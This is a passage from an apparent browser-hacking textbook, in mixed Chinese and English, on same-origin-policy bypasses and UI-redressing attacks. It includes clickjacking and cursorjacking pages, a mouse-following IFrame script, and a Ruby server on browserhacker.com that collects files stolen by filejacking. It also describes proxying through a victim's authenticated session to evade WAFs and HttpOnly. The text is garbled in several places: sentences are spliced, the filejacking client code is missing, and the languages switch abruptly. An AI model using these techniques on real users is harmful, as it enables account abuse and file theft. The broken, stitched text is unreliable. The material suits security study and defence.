所有这些 SOP 绕过示例仅作为概念性说明——它们并非穷尽列表。其他向量可能在此处描述，而且许多其他的仍在等待公开。我们鼓励您思考不同种类之间的关系，以及它们共同依赖的共同点。依赖 301 或 302 重定向以及 file 等方案的 SOP 绕过在未来发现的新 SOP 执行漏洞中几乎肯定会非常常见。

# Exploiting SOP Bypasses

现在，您已经对 SOP 有了良好的理解，并且掌握了多个 SOP 绕过的示例，接下来是时候来看看一些实际攻击了。

您将学习如何利用前几页介绍的某些 SOP 绕过方法，使用挂钩浏览器作为 HTTP 代理。即使面对诸如防御性 Cookie 标志和并发会话防止等众多 Web 应用安全控制，这也可以实现。本节还将介绍多种 UI 重置攻击。其中一些依赖于 SOP 绕过，另外一些则是因为 SOP 最初并未设计来应对这些问题。

## Proxying Requests

一旦您掌握了对某个源的控制权，更高级的攻击就能够实施。通过利用挂钩浏览器代表您发出请求，您可以有效地通过挂钩浏览器代理请求，并使用它浏览其他源。这带来了若干好处，包括使用挂钩用户的 Cookie（身份验证令牌）进行浏览，这能够提供广泛的额外访问权限。当然，即使没有 SOP 绕过，代理请求也能够为您带来极大价值。

Anton Rager 发布了首篇公开的研究论文，阐述如何利用 XSS 漏洞创建 HTTP 代理。25 Petko Petkov 随后在此基础上扩展了 Rager 的工作，开发出 BackFrame。2006 年，Stefano di Paola 和 Giorgio Fedon 又在论文“Subverting AJAX”中进一步延伸了这一研究，他们展示了利用原型覆盖、HTTP 响应拆分等技术对 AJAX 进行劫持的多种方式。

其他利用挂钩浏览器作为 HTTP 代理的研究还包括 Ferruh Mavituna 于 2007 年发布的 XSS Tunnel27。该概念随后被纳入 BeEF，演变为 Tunneling Proxy。此后，BeEF 的 Tunneling Proxy 进一步扩展，以支持利用其他 SOP 绕过方法。代理请求的核心思路如下：

Level1 **1.** 服务器套接字在攻击机器（代理后端）上监听。它解析传入的 HTTP 请求，并将其转换为 AJAX 请求，准备作为额外的 JavaScript 代码注入到挂钩浏览器中。**2.** 这些 JavaScript 片段随后通过第 3 章中探讨的通信通道之一发送到挂钩浏览器。**3.** 当挂钩浏览器执行这些额外代码时，相应的 AJAX 请求会被发出，HTTP 响应随即返回到代理后端。**4.** 代理后端会剥除并调整各种头部（如 Gzip、Content‑Length 等），然后将响应发送回最初向代理发送 HTTP 请求的客户端套接字。

/Level1

这些步骤已在 Figure 4-7 中复现，图中展示了如何通过挂钩浏览器隧道传输请求。

 start figure 

**Figure 4-7:** Tunneling Proxy 高层架构



 end figure 

在隧道传输请求时，默认情况下您仅限于与挂钩站点同源的请求，因为 SOP 防止跨源访问。例如，若挂钩了 browservictim.com 的用户，您只能请求该源内的页面。这是因为 SOP 阻止您跨越该源。

然而，一旦拥有 SOP 绕过方法，您就能够代理超出该源的请求，从而使用挂钩浏览器的授权（Cookie 会话令牌）访问任意页面。

考虑一种场景（无 SOP 绕过）：您想攻击一个面向公众的 Web 应用。可能存在 Web Application Firewall（WAF），配置为在五次恶意请求后严格阻止攻击源 IP。您刚刚发现一种 DOM‑based XSS，这种漏洞无法通过传统 WAF 进行防御，并且您已成功挂钩到公司内部网络中的一位用户。WAF 通常会在规则集中白名单公司网关地址和网段，因为内部网络被视为攻击概率极低的来源。

您现在可以利用 Tunneling Proxy 检查该 Web 应用的更多漏洞。请求通过挂钩浏览器（位于内部网络）进行隧道传输，因而不会在 WAF 上产生过多噪声，理想情况下会被完全忽略，因为请求来源被视为可信的内部网络。正如第 9 章“通过浏览器代理”所探讨的，您甚至可以通过 Tunneling Proxy 使用 Burp 和 sqlmap。

另一种使用 Tunneling Proxy 的原因是当目标源需要身份验证时。想象您已通过 XSS 在身份验证后获取了挂钩浏览器，您可以利用 Tunneling Proxy 轻松浏览已验证的应用界面，实际上借助挂钩目标的会话进行访问。您无需窃取 Cookie。值得注意的是，HttpOnly 安全控制在此情形下无效，因为是目标浏览器本身在为您请求资源。

如果将 Tunneling Proxy 与 SOP 绕过相结合，您便拥有了开放的 HTTP 代理。这是因为受影响的挂钩浏览器能够发送跨源请求并读取所有源的响应。事实上，如果您有多个受相同 SOP 绕过影响的挂钩浏览器，则可以获得多个代理。您可以根据各挂钩浏览器的网络带宽进行切换，或利用多个挂钩浏览器同时发起同源请求，从多个位置交付攻击。

## Exploiting UI Redressing Attacks

UI 重置攻击在浏览器和应用安全场景中日益突出。随着社交网络的兴起、广告和“点赞”按钮的普及，这种攻击已开始在野外被利用。28

最为人知的 UI 重置攻击类型是 Clickjacking。显然，还有其他可归类为 UI 重置的攻击，它们在可执行的操作和可获取的信息方面存在差异。下面的章节将对这些攻击进行分析，并回顾一些依赖于拖放操作的历史攻击。

### Using Clickjacking

Clickjacking 攻击利用独立定位的透明 IFrames 与特殊 CSS 选择器欺骗用户点击不可见的元素。该攻击最早在 2002 年由 Jesse Ruderman 讨论，随后于 2008 年由 Robert Hansen 和 Jeremiah Grossman 命名为 Clickjacking。下面是一个示例，其中包含行政功能的页面通过 IFrame 嵌入到另一页面：


<html>
<head>
</head>
<body>
  <form name="addUserToAdmins" action="javascript:alert('clicked on hidden IFrame. User added.')" method="POST">
    <input type="hidden" name="userId" value"1234">
    <input type="hidden" name="isAdmin" value"true">
    <input type="hidden" name="token" value"asasdasd86a
sd876as87623234aksjdhjkashd">
    <input type="submit" value="Add to admin group" 
    style="height: 60px; width: 150px; font-size:3em">
  </form>
</body>
</html>

The page also uses anti-XSRF tokens to prevent Cross-site Request Forgery attacks. For the sake of the demonstration, the action attribute of the HTML form contains JavaScript that displays an Alert box. A real page would contain a proper URL where those input values are sent. When the user clicks the Submit button, the user with ID 1234 is added to the administrative group. To launch the attack, the previous page is framed in the following page:

```html
<html>
<head>
<style>
iframe{
 filter:alpha(opacity=0);
 opacity:0;
 position:absolute;
 top: 250px;
 left: 40px;
 height: 300px; 
 width: 250px;
}
img{
 position:absolute;
 top: 0px;
 left: 0px;
 height: 300px; 
 width: 250px;
}
</style>
</head>
<body>
<!-- The user sees the following image-->


<!-- but he effectively clicks on the following framed content -->
<iframe src="http://localhost/clickjacking
/iframe_content.html"></iframe>
</body>
</html>
```

The result is shown in Figure 4-8. Note that it looks like there is no visible presence of the framed content. This undetectable content is actually the basis of many UI redressing attacks as it is actually what your target interacts with.

start figure 

**Figure 4-8:** An apparently innocuous poll page with two buttons



end figure 

start figure 

**Figure 4-9:** Removing the IFrame opacity reveals the real positioning.



end figure 

When the user clicks either YES or NO, what is really clicked will be the HTML form submit button loaded in the IFrame, as you can see in Figure 4-10.

start figure 

**Figure 4-10:** Clicking on the hidden IFrame submit button



end figure 

This is a very simple example of how a user can be fooled into performing unwanted actions. The concept behind this attack could be used for a number of purposes, for example elevating the privileges of a normal user. The victim of such an attack could be a user that has administrator privileges. They could be already logged in to an application with functionality similar to the code snippet presented earlier.

The fact the application relies on an anti-XSRF token doesn’t impact the delivery of the Clickjacking attack. This is because the resource to be framed is loaded normally and contains a valid anti-XSRF token. Clickjacking is in fact an ideal attack method you can perform against an application that uses anti-XSRF tokens, effectively nullifying the protection offered by those tokens.

Chapter 3 discusses how to prevent loading resources in IFrames. The same caveats presented in that chapter can be applied here. A way to generally prevent UI redressing attacks (as almost every attack relies on loading a resource into an IFrame) is by using the header X-Frame-Options: DENY. As you will learn in the next sections, there have been cases where simple frame-busting code was not enough to prevent some attacks.

start feature 

* * *

**Clickjacking the Flash Settings Manager** Robert Hansen and Jeremiah Grossman contributed greatly to the public awareness of Clickjacking attacks. In 2008, they were able to mount a Clickjacking attack on the Flash Settings Manager.30 Using transparent (opaque=0) IFrames and divs, they successfully hid the Flash Settings Manager “Allow” button over those elements. The target, while apparently clicking an innocuous button, would actually be clicking on the Flash Settings widget as shown in Figure 4-11.  start figure  

**Figure 4-11:** The opaque IFrames and divs cover the Flash widget text.

 end figure  The impact of such an action is clearly visible here, resulting in the compromise of the target’s privacy. Note that the text displayed in the Flash Settings Manager isn’t visible either, leaving the target completely unaware of what is happening and where they are clicking. 

* * *

end feature 

The previous Clickjacking examples have demonstrated what is possible with CSS alone. If you need the attack to take dynamic information from the target, for instance mouse movements, you can throw JavaScript into the mix. The flexibility of JavaScript enables you to determine the exact x and y coordinates of the current mouse position. This comes in handy when mounting complex Clickjacking attacks that rely on multiple clicks to be performed.

Imagine you framed a page with a button that required a user click in order to execute your attack. In this instance, your Clickjacking aim is to ensure your target’s mouse is always on top of that button. In this way, as soon as they click anywhere, the user is effectively clicking exactly where you want. Rich Lundeen and Brendan Coles created a BeEF command module implementing this very technique.31

In this scenario you have two frames, an inner and an outer IFrame. The outer I think the target origin you want to exploit with the Clickjacking attack. The inner IFrame instead listens to onmousemove events, and its position gets updated according to the current mouse cursor position. In this way, the mouse cursor is always over what you want the target to click on.

The following code uses the jQuery API to dynamically update the position of outerObj given the current mouse coordinates:

```
$j("body").mousemove(function(e) {
  $j(outerObj).css('top', e.pageY);
  $j(outerObj).css('left', e.pageX);
});
```

The inner IFrame style uses the opacity trick to render an invisible element:

```
filter:alpha(opacity=0);
opacity:0;
```

Consider the following sample page, which is the target of the Clickjacking attack. You want the user to click the Add User button, which in this case simply creates a pop-up when the user clicks it. Note the bodybackground that has been added to better illustrate the following example:

```
<html>
<head>
</head>
<body style="background-color:red">
<p> </p>
<button onclick="javascript:alert('User Added')" \ 
type="button">Add User to Admin group</button>
<p> </p>
</body>
<html>
```

If you launch the “Clickjacking” BeEF module with the preceding HTML as the inner IFrame, then all the clicks will be sent to the IFrame. The results of this can be seen in Figure 4-12 and Figure 4-13. As you can see, the IFrame is following the mouse movements, so that wherever the user clicks on the page, they will actually be clicking the Add User button.

start figure 

**Figure 4-12:** The IFrame is reliably following the mouse movements.



end figure   start figure 

**Figure 4-13:** The cursor is still on top of the button.



end figure 


当用户决定点击某个位置时，点击会触发框架页面中按钮的 `onClick` 事件。正如你在框架页面的源代码中所看到的，这会弹出一个提示框对话框，如图 4-14 所示。

start figure 

**Figure 4-14:** 成功的点击劫持



end figure 

请注意，在之前的图中，你可以看到鼠标光标下方的背景和按钮。这是因为为了演示的需要，并没有将 IFrame 内容的不透明度设置为隐藏。

### 使用光标劫持

本节将探讨与点击劫持类似的攻击，但这次攻击重点在于鼠标光标。光标劫持在需要进行复杂的 UI 重定位攻击时非常有用。

start feature 

* * *

**NoScript ClearClick** NoScript 是一款为防止 XSS、XSRF 和各种 UI 重定位攻击而设计的流行 Firefox 扩展程序。其 ClearClick32 功能通过截取框架页面和父页面的截图（即你通常看到的样子）来识别并阻止点击劫持攻击。如果这两张截图不同，则说明发生了点击劫持攻击。利用此技术，NoScript 能够识别点击在透明元素上的操作，这些元素可能被用于实施点击劫持攻击。

* * *

end feature 

光标劫持的最初示例由 Eddy Bordi 展示，随后由 Marcus Niemietz 进行了优化。33 光标劫持通过自定义光标图像欺骗用户，使指针显示为相对实际鼠标位置的偏移。攻击者可以引导用户点击到目标元素上。下面是一个示例页面：

```
<html>
<head>
<style type="text/css"> 
 #c {
  cursor:url("http://localhost/basic_cursorjacking
  /new_cursor.png"),default;
 }
 #c input{
  cursor:url("http://localhost/basic_cursorjacking
  /new_cursor.png"),default;
 }
</style> 
</head>
<body>
 <h1> CursorJacking. Click on the 'Second' or 'Fourth' buttons. </h1>
<div id="c">
  <input type="button" value="First" onclick="alert('clicked on 1')">
          
  <input type="button" value="Second" onclick="alert('clicked on 2')">
          <br></br>
  <input type="button" value="Third" onclick="alert('clicked on 3')">
          
  <input type="button" value="Fourth" onclick="alert('clicked on 4')">
          
</div>
</body>
</html>
```

从 CSS 定义可以看出，鼠标光标被替换为自定义图像。如图 4-15 所示，该图像在右侧有固定偏移。

start figure 

**Figure 4-15:** 点击“第二”按钮会导致点击“第一”按钮。



end figure 

为了演示的需要，背景图像是可见的。在真实攻击中，图像仍是 PNG 格式，但背景透明。当目标点击“第二”或“第四”按钮时，实际上是点击页面左侧的按钮。真实的鼠标位置通过新光标图像隐藏。

Krzysztof Kotowicz34 和 Mario Heiderich 扩展了这些光标劫持技术。他们的新攻击向量完全隐藏了光标，并在 body 元素上添加了以下样式：

```
<body style="cursor:none">
```

随后会动态加载一个新的光标图像，并将其与 mousemove 事件关联。下面的代码演示了这种技术：

```
<html>
<head><title>Advanced cursorjacking by Kotowicz & Heiderich</title>
<style>
body,html {margin:0;padding:0}
</style>
</head>
<body style="cursor:none;height: 1000px;">

<div style=margin-left:300px;">
<h1>Is this a good example of cursorjacking?</h1>
</div>
<button style="font-size:
150%;position:absolute;top:130px;left:630px;">YES</button>
<button style="font-size: 150%;position:absolute;top:130px;
left:680px;">NO</button>
<div style="opacity:1;position:absolute;top:130px;left:30px;">
<a href="https://twitter.com/share" class="twitter-share-button"
data-via="kkotowicz" data-size="small">Tweet</a>
<script>!function(d,s,id){var 
js,fjs=d.getElementsByTagName(s)[0];if(!d.getElementById(id))
{js=d.createElement(s);js.id=id;js.src="//platform.twitter.com/
widgets.js";fjs.parentNode.insertBefore(js,fjs);}}(document,
"script","twitter-wjs");</script>
</div>
<script>
function shake(n) {
 if (parent.moveBy) {
 for (i = 10; i > 0; i--) {
  for (j = n; j > 0; j--) {
   parent.moveBy(0,i);
   parent.moveBy(i,0);
   parent.moveBy(0,-i);
   parent.moveBy(-i,0);
  }
 }
 }
}

shake(5);
  var  oNode = document.getElementById('cursor');

  var onmove = function (e) {  
    var nMoveX =  e.clientX, nMoveY =  e.clientY; 
    oNode.style.left = (nMoveX + 600)+"px";  
    oNode.style.top = nMoveY + "px";  
  }; 
  document.body.addEventListener('mousemove', onmove, true);
</script>
</body>
```

首先，将鼠标光标图像替换为自定义图像。其次，在页面 body 上附加一个新的事件监听器，监听 mousemove 事件。当真实鼠标移动时，事件触发监听器，使伪光标（可见的那个）相应移动。

通过 JavaScript，实时跟踪真实鼠标在 x 和 y 方向的移动，并更新伪光标的位置。正如你可能注意到的，前一节关于高级点击劫持中使用的技术相同。结果如图 4-16 所示，当目标点击 YES 按钮时，实际上是在点击 Twitter 按钮。

start figure 

**Figure 4-16:** 点击 YES 按钮会导致点击 Twitter 按钮。



end figure 

这种新光标劫持技术最初绕过了 NoScript 的 ClearClick 防护。请回顾之前关于 ClearClick 提供的防护，它能够识别点击是否在透明（不透明=0）元素上进行。而在前面的示例中，真实点击发生在非透明区域（Twitter 按钮），因此 NoScript 无法检测到攻击。此 ClearClick 绕过已在 NoScript 版本 2.2.8 RC1.35 中得到解决。

### 使用文件劫持

文件劫持允许通过浏览器内的巧妙 UI  manipulation 将目标机器的目录内容泄露到攻击者的服务器。结果是，在特定条件下，你可以从目标机器下载文件。成功执行此攻击的两个前提是：

Level1 **1.** 目标必须使用 Chrome，因为目前只有 Chrome 支持类似下面的 `webkitdirectory` 和 `directory` 输入属性：

```
<input type="file" id="file_x " webkitdirectory directory />
```

**2.** 攻击依赖于诱导目标点击某个位置，类似于其他 UI 重定位技术。在此情况下，输入元素被一个按钮元素遮挡，常见的透明度 CSS 技巧在前面的页面中已经看到。

/Level1

Kotowicz36 首先在 2011 年发表了这项 UI 重定位研究，之后分析了将文件劫持攻击推广给用户的社交工程手段的影响。


The Filejacking attack relies on the target using the operating system’s “Choose Folder” dialog box when downloading a file from the web. To optimize the attack, you should attempt to trick the user into selecting a directory containing sensitive files, for instance by employing authentic-looking phishing content. Figure 4-17 demonstrates what the target will see if they select the “Download to…” button. JavaScript will enumerate the files in the directory with the directory input attribute, and then POST each of the files back to your server.

 start figure 

**Figure 4-17:** 点击“Download to…”会打开“选择文件夹”对话框。



 end figure 

Consider the following server-side Ruby code:

```
require 'rubygems'
require 'thin'
require 'rack'
require 'sinatra'

class UploadManager < Sinatra::Base
  post "/" do
    puts "receiving post data"
    params.each do |key,value|
      puts "#{key}->#{value}"
    end
  end
end

@routes = {
    "/upload" => UploadManager.new
}

@rack_app = Rack::URLMap.new(@routes)
@thin = Thin::Server.new("browserhacker.com", 4000, @rack_app)

Thin::Logging.silent = true
Thin::Logging.debug = false

puts "[#{Time.now}] Thin ready"
@thin.start
```

The code is binding Thin, a Ruby web server, on port 4000 ready to process HTTP POST requests to the `/upload` URI. When a POST request arrives to that URI, the contents are printed on the console, as you can see in Figure 4-18.

The following JavaScript code is the client-side part of the attack. Note the cloak button and the cloaked input elements have their opacity set to 0. These will then be covered by the visible button element. When the target clicks the button, they are actually clicking the input element, cannot be read, whereas other browsers such as Opera do not. You will explore how this behavior is significant with many types of new attacks in Chapters 9 and 10.

 start figure 

**Figure 4-18:** POST data is sent cross-origin.



 end figure 

### Using Drag and Drop

Another example of how inconsistent SOP implementations can result in vulnerabilities is the drag&drop UI redressing attack. Exploiting these holes in the target browser will result in stealing content across different origins. One of the first public disclosures of such an attack was from Michal Zalewski in late 2010.37 He reported a bug in Firefox (patched in 2012) where the SOP was not enforced when performing cross-origin drag&drop actions.

You could create an IFrame in a phishing page you control. The IFrame source points to a cross-origin resource, whose content can be read by bypassing the SOP if the user drags the IFrame and drops it somewhere in the top-level window.

This behavior can be achieved by tricking the target—for example, by displaying a basic game—to drag&drop elements in the page. The element that is dragged and dropped is the IFrame with the content you want to read.

The first PoC applying this technique used resources framed with view-source://. For example:

```
<iframe src="view-source:http://browservictim.com/any">
```

If a resource is loaded with view-source, the raw HTML source is rendered. There are numerous advantages to tricking the user into performing a drag&drop action of this framed content into the top-level window. These include the ability to read anti-XSRF tokens and any other information you can get reading the raw HTML of the page.

This bug was patched in late 2011 in Firefox, disallowing cross-origin drag&drop actions. Kotowicz found another interesting way around this limitation, which still worked in Firefox at the time of this writing. The technique is called “Fake Captcha”38 and covers a specific corner case. This issue occurs where a resource is framed using view-source as discussed before, and the content you want to retrieve is positioned with a specific offset on the top-level window. The technique is exploiting the fact that the user, when presented with an input field containing some content to be copied, may rely on a mouse triple-click and Ctrl+C. This action selects and copies the whole content to the clipboard. In this case, the content displayed in the input field is a fragment of a line of raw HTML from the framed content. Figure 4-19 shows what the user sees, and Figure 4-20 illustrates what’s really happening in the background.

 start figure 

**Figure 4-19:** 用户可见的源代码。



 end figure 

If the user triple-clicks with the mouse on the Security Code input field, it will effectively copy the whole line, as you can see in Figure 4-20. The highlighted content is only a piece of the line, the section you want the unsuspecting user to see. The technique relies on positioning the IFrame at a specific offset on the top-level window. The Security Code input field is not a real input field, but an IFrame, as you can see from the following code:

```
<style>
iframe#one {
 margin: 0;
 padding: 0;
 width: 9em;
 height: 1em;
 border: 2px inset black;
 font: normal 13px/14px monospace;
 display: inline-block;
}
</style>

<p>
<label>Security code:</label><iframe id=one scrolling=no
src="http://browservictim.com/any"></iframe>
</p>
```

 start figure 


-   图 4-20： 缩放 IFrame 可以显示更多细节



end figure 

当目标将内容粘贴到第二个输入框时，整行内容会被有效粘贴，完整的行内容会被显示给你。在本例中（如你在 图 4-21 可以看到）可以获取到反 XSRF token，并可用于对框架来源的未来攻击。

start figure 

**图 4-21：** 用户粘贴的整行内容是反 XSRF token。



end figure 

此技术可以实现跨源内容提取，从而有效绕过同源策略（SOP）。值得注意的是，2011 年 10 月，该技术在野外被用于攻击 Facebook。39

另一种跨源内容提取方法是 Luca De Fulgentis 研发的 IFrame 到 IFrame 拖放技术。40 该技术与前面的拖放/查看源代码 PoC 高度相似，主要区别在于目标会将目标 IFrame 拖放到另一个 IFrame 中，而不是到顶层窗口。

